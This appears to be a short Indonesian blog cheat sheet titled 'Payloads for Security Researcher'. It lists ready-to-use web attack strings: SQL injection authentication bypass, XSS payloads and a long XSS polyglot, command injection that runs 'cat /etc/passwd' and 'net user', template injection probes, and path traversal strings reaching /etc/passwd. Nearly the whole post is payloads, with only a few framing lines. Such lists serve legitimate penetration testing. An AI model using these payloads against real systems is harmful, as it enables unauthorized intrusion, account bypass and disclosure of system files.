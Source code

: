 ```yaml
---
title: Payloads for Security Researcher
excerpt: Ini adalah bagian dari instruksi yang dieksekusi untuk mengeksploitasi kerentanan dalam sistem.
date: 2025-03-31 01:37:00
tags: [securityresearcher]
categories:
  - [Resources for Security Researcher]
index_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/yublueflower.jpg
banner_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/1337yublueflower.jpg
---
```


Ini adalah bagian dari instruksi yang dieksekusi untuk mengeksploitasi kerentanan dalam sistem. 

**Payloads for SQL Injection Authentication Bypass**

- `' or 1=1 limit 1 -- -+`
- `'="or'`

**Payloads for Cross-Site Scripting**

- `"><script>alert('vulnerable')</script>`
- `"><img src=vulnerable onerror=alert('vulnerable') />`
- `"><svg onload=alert('vulnerable')>`
- `"><input type=image src onerror="alert('vulnerable')">`

**XSS Polyglots**

Poliglot XSS adalah string yang mampu disuntikkan ke dalam beberapa konteks yang berbeda dan masih menghasilkan eksekusi JavaScript, ini bekerja di lebih dari 20 konteks.

- payload for xss polyglots
```polyglots
jaVasCript:/*-/*`/*`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>x3csVg/<sVg/oNloAd=alert()//>x3e
```

Kelemahan poliglot adalah mudah terdeteksi oleh firewall aplikasi web (WAF), mereka cenderung cukup panjang dalam hal panjang karakter, dan mereka tidak berfungsi di setiap konteks.

**Payloads for Command Injection**

- `; uname -a; cat /etc/passwd`
- `& cmd /c "whoami & net user"`

**Payloads for Server-Side Template Injection**

- `{{ 13*37 }}`
- `${{13*37}}`
- `<%= 13*37 %>`
- `#{13*37}`
- `{{= 13*37 }}`

**Payloads for Path Traversal**

- `../../../etc/passwd`
- `/etc/passwd`
- `....//....//....//etc/passwd`
- `..%252f..%252f..%252fetc/passwd`
- `../../../etc/passwd%00.png`

Ini telah disesuaikan untuk peneliti keamanan melakukan pengujian kerentanan yang lebih luas dan mendalam.
